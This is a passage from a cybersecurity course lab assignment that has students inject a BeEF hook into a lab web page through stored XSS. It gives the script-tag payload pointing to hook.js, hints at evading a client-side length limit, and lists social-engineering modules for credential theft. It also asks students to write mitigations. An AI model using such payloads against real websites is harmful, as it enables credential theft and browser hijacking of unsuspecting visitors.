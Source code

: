 
    * Return to the BeEF control panel. In the center pane ("Module Results History"), select the first option. Note that in the right-hand pane, the victim's username and password have now been captured by the attacker, as the following image shows: \


<p id="gdcalert17" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: error handling inline image </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert18">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.
    * Task details:
        * You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`
        * The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`
        * The payload to inject with this BeEF hook is: `&lt;script src="http://127.0.0.1:3000/hook.js">&lt;/script>`
    * When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.
6. **<span style="text-decoration:underline;">HINT</span>**
    * Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
        * Social Engineering > Pretty Theft
        * Social Engineering > Fake Notification Bar
        * Host > Get Geolocation (Third Party)
7. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.

## **Submission Guidelines**

* After you complete your Submission File, title it with the following format: &lt; YOUR NAME >&lt; M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.

